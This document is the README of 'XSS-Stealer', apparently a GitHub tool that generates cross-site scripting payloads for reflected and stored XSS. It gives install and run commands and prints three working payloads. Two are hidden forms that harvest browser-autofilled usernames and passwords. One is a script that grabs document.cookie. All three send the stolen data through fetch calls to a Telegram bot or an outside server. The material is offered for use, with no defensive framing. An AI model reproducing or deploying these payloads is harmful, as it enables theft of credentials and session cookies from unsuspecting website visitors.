 # XSS-Stealer

Simple utility to generate XSS-based stealers.

## Usage

```shell
pip install -r requirements.txt
```

```shell
python -m stealer
```

## Examples

### Passwords-Telegram

Steals the password using form autofill and sends it to the Telegram Bot.

**XSS-Types:**

- Reflected
- Stored


<p align="center">
<img src="resources/images/passwords_telegram.png" alt="passwords-telegram">
</p>


**Result code:**

```js
<form style="display: none" onchange="fetch(`https://api.telegram.org/bot123456:ABC-DEF1234ghIkl-zyx57W2v1u123ew11/sendMessage?text=${this.u.value};${this.p.value}&chat_id=123123123`)"><input id="u" autocomplete="username"><input id="p" type="password" autocomplete="password"></form>
```



### Cookies-Telegram

Steals the cookies and sends it to the Telegram Bot.

**XSS-Types:**

- Reflected
- Stored

<p align="center">
<img src="resources/images/cookies_telegram.png" alt="cookies-telegram">
</p>


**Result code:**

```js
<script>fetch(`https://api.telegram.org/bot123456:ABC-DEF1234ghIkl-zyx57W2v1u123ew11/sendMessage?text=${document.cookie}&chat_id=123123123`)</script>
```


### Passwords-Server

Steals the password using form autofill and sends it to the Server.

**XSS-Types:**

- Reflected
- Stored

<p align="center">
<img src="resources/images/passwords_server.png" alt="cookies-telegram">
</p>


```js
<form style="display: none" onchange="fetch(`https://example.com?c=${this.u.value};${this.p.value}`)"><input id="u" autocomplete="username"><input id="p" type="password" autocomplete="password"></form>
```

## Licence

XSS-Stealer is released under the MIT License. See the bundled [LICENSE](LICENSE) file for details.